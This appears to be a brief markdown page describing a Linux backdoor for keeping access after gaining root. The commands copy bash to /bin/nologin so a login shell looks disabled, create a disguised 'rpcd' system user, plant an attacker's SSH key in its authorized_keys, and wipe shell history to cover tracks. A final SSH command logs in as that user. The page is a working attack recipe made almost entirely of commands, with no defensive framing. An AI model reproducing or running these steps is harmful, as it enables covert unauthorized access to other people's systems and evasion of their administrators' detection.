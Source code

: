# Prerequisite

Root user access

# Attacker

    # ssh-keygen

# Target

    # cp /bin/bash /bin/nologin
    # useradd -r -m -d /var/spool/<USERNAME> -s /usr/sbin/nologin <USERNAME>
    # useradd -r -m -d /var/spool/rpcd -s /bin/nologin rpcd
    # mkdir -p /var/spool/rpcd/.ssh
    # echo '<ATTACKER_PUBLIC_KEY>' >> /var/spool/rpcd/.ssh/authorized_keys
    # chmod 600 /car/spool/rpcd/.ssh/authorized_keys
    # history -c


### Exploitation 

    ssh rpcd@<TARGET_IP>[:SSH_PORT] -i <ATTACKER_PRIVATE_KEY_PATH>


